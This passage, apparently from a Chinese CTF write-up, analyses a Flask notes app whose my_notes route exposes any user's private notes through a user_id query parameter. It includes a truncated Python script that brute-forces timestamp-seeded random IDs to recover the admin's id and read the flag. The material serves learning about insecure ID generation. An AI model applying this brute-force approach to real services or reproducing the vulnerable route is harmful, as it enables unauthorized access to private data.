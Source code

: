 ```python
            db.session.add(note)
            db.session.commit()
            return redirect(url_for('index'))

        else:
            return render_template("create.html", form=form)
    except Exception as e:
        pass

```

其中，我们`post_at`已经知道

![image-20210119142946848](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210119144023.png)

那么在下面这张图里，我们只有`user_id`不知道

![image-20210119142616697](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210119144031.png)

而my_note()的else里面只需要`user_id`就可以列出所有私有note

```python
@app.route('/my_notes')
def my_notes():
    if session.get('username'):
        username = session['username']
        user_id = User.query.filter_by(username=username).first().user_id
    else:
        user_id = request.args.get('user_id')
        if not user_id:
            return redirect(url_for('index'))

    results = Note.query.filter_by(user_id=user_id).limit(100).all()
    notes = []
    for x in results:
        note = {}
        note['title'] = x.title
        note['note_id'] = x.note_id
        notes.append(note)

    return render_template("my_notes.html", notes=notes)
```

于是我们可以根据已知的`note_id`和`post_at`来~~反推~~爆破`user_id`，只要算出admin的id即可看到发布的私有flag。

因为时间戳精确到了小数点后四位，我们知道的`post_at`是分钟级别的，所以这里需要爆破最多`10000*60`次

```python
import random
import datetime
import time
import string

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

post_at = '2021-01-15 02:29 UTC'#admin发布的第一个Pubic note时间

l = [i/10000 for i in range(0, 10000)]#小数部分，l是一个列表
for j in range(0,60):
    ta1 = time.strptime('2021-01-15 10:29:{} UTC'.format(j), '%Y-%m-%d %H:%M:%S UTC')#格式化时间，因为时区不同需要加8小时    
    ta = int(time.mktime(ta1))#转换为时间戳
    for i in l:
        t = ta + i#整数部分与小数部分拼接
```